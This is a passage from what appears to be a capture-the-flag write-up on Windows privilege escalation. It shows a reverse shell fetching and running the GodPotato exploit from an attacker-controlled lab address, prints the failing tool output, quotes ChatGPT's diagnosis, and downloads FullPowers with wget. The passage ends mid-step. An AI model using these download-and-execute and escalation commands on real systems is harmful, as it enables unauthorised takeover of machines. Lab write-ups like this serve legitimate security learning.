 Then in the reverse shell, download and execute that tool :

```powershell
Invoke-WebRequest -URI http://10.10.14.23:9090/GodPotato-NET4.exe -OutFile GodPotato.exe
./GodPotato -cmd "cmd /c whoami"
```

Result :

```text
[*] CombaseModule: 0x140720145956864
[*] DispatchTable: 0x140720148263024
[*] UseProtseqFunction: 0x140720147639200
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\a6e220f3-3bed-4c60-ab2d-d5234335de9b\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-08a0-ffff-0a86-c460991e37b8
[*] DCOM obj OXID: 0x5d5394dbb4279735
[*] DCOM obj OID: 0x720fbc6035165250
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Identification
[*] Start Search System Token
[*] Find System Token : False
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[!] Cannot create process Win32Error:1314
```

That is not working. ChatGPT quickly identify what’s going wrong :

> The problem seems to be that the ‘NT AUTHORITY\NETWORK SERVICE’ account does not have the ‘SeAssignPrimaryTokenPrivilege’ privilege required to create a process with the system token1. The GodPotato script tries to exploit a vulnerability in the DCOM service to elevate its privileges to NT AUTHORITY\SYSTEM, but it fails because of the impersonation level ‘Identification’ that does not allow to modify the token2. 

[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-local-service-or-network-service-to-full-privs](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#from-local-service-or-network-service-to-full-privs)

In order to restore the full privileges, hacktricks gives a reference : [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

```shell
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
```

Review privileges:
